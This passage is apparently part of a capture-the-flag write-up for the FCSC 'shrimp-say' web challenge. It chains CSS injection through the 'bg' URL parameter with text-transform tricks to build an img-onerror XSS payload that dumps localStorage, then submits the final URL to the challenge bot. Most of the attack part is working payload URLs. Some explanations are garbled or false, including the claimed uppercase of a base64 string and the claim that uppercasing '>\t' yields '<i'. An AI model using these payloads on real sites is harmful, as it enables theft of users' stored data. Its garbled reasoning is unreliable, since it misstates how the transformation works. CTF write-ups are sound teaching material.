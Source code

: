 Doing this, shows all the scripts, we only need the one with the id `data`, it has an `data` id, so we can simply use `#data` to select it, since it is in URL, we have to URL encode it: `%23`.

```
https://shrimp-say.fcsc.fr/?msg=hello&bg=white:}%23data{display:block
```

Let's uppercase everything !

```
https://shrimp-say.fcsc.fr/?msg=hello&bg=white:}%23data{display:block;text-transform:uppercase
```

This gives us `aGVsbG8=`, which is `btoa("hello").toUpperCase()`, which is `\x00eR\x04o`.
We can use this to bypass the `<` filter, which is only the first character if we consider using this XSS:

```
<img src=x onerror=console.log(JSON.stringify(localStorage))>
```

We can use the `word-break` property to break the string into multiple lines, depending on the `width` and then use the `text-transform` property to uppercase only the [first line](https://developer.mozilla.org/en-US/docs/Web/CSS/::first-line).

```
https://shrimp-say.fcsc.fr/?msg=img%20src%3Dx%20onerror%3Dconsole.log(JSON.stringify(localStorage))%3E&bg=white;}%23data{display:block;width:3ch;word-break:break-all;text-wrap-mode:wrap;}%23data::first-line{text-transform:uppercase
```

Now, we have to figure out the first characters to output the `<` character.
After some trials, we can use `>\t` that will transform into `<i` when uppercased.

That gives us the final payload:

```
https://shrimp-say.fcsc.fr/?msg=%3E%09mg%20src%3Dx%20onerror%3Dconsole.log(JSON.stringify(localStorage))%3E&bg=white;}%23data{display:block;width:3ch;word-break:break-all;text-wrap-mode:wrap;}%23data::first-line{text-transform:uppercase
```

## Getting the flag

Let's connect to the bot and enter the URL:

```terminal
$ nc chall.fcsc.fr 2203
==========
Tips: Every console.log usage on the bot will be sent back to you :)
==========

Please provide the URL you want to visit:
https://shrimp-say.fcsc.fr/?msg=%3E%09mg%20src%3Dx%20onerror%3Dconsole.log(JSON.stringify(localStorage))%3E&bg=white;}%23data{display:block;width:3ch;word-break:break-all;text-wrap-mode:wrap;}%23data::first-line{text-transform:uppercase

Starting the browser...
[T1]> New tab created!
[T1]> navigating        | about:blank

Setting the flag in the localStorage for http://shrimp-say/...
[T1]> navigating        | http://shrimp-say/?msg=Hello%20Shrimp&bg=lightblue

Going to the user provided link...

Leaving o/
[T1]> Tab closed!
[T0]> Tab closed!
```
